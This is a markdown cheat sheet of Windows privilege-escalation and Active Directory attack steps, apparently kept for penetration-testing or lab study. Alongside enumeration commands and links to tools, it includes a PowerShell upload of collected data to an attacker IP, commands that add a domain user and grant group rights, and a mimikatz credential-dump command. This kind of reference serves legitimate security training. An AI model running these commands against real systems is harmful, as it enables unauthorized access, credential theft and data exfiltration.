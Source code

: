 # Windows PrivEsc 

**Step 1** 
Review PrivEsc Mind map

https://github.com/hxhBrofessor/PrivEsc-MindMap/blob/main/windows-mindMap.JPG 

**Step 2** 
Look around the file system!!! 

**Step 3** 

Determine architecure
`systeminfo` 
or 
`$Env:PROCESSOR_ARCHITECTURE` 

*AMD64 for 64-bit and x86 for 32-bit*

**Step 4**
Run (winPEAS)[https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS]

**Step 5**
Run (adPEAS)[https://github.com/61106960/adPEAS]

**Step 6**
Begin manual review if still no leads 

## Active Directory Methodology 
https://s0cm0nkey.gitbook.io/s0cm0nkeys-security-reference-guide/red-offensive/testing-methodology/active-directory

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md

## Basics 

(Manual Enum Guide)[https://fuzzysecurity.com/tutorials/16.html]
(Password Attacks)[https://medium.com/@kuwaitison/local-password-attack-and-credentials-theft-for-windows-linux-5764a1a25363]

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`

`whoami /all` 

`whoami /priv` 

`net users` 

`net localgroup`

`netstat -ano` 

`dsacls "DC=htb,DC=local"` 

## Scheduled Tasks 

### generate file 
`schtasks /query /fo LIST /v > scheduled-task.txt`

### transfer off Windows
`powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.49.192/upload.php', 'scheduled-task.txt')` 

### Grep results on Kali
`grep -i "SYSTEM" scheduled-task.txt -B 5 -A 5` 

## Services 

`wmic service list brief` 

`tasklist /v /fi "username eq system` 

`sc query state= all | findstr "SERVICE_NAME:" >> Services.txt` 

`wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """` 

## AlwaysInstallElevated 
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`

`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated` 

## AD Commands to run

`ldapsearch -H ldap://<ip>:<port> -x -LLL -s sub -b "DC=<domain>,DC=local"` 

### Users
`net user`
`net user hacker password /add /domain` 

### Groups 
`net group "group name"`

`net group "Exchange Windows Permissions" /add account_name` 

## Passwords
### powershell recursive grep like search
`ls -R -Hidden -EA SilentlyContinue | select-string <search string>`

### Get password hashes from mimi. 
`lsadump:​:lsa /patch`

## Metasploit module for exploit suggestions
`post/multi/recon/local_exploit_suggester` 

## Tools to run
(Watson for kernel exploit suggestions)[https://github.com/rasta-mouse/Watson, https://0xdf.gitlab.io/2019/03/05/htb-devel.html]
(Bloodhound)[https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux]
(Powerview)[https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/#ad-enumeration-with-powerview]
(Windows exploit suggester)[https://github.com/AonCyberLabs/Windows-Exploit-Suggester]
(Sherlock)[https://github.com/rasta-mouse/Sherlock](How to use Sherlock)[https://0xdf.gitlab.io/2021/03/17/htb-optimum.html]
(JAWS)[https://github.com/411Hall/JAWS]

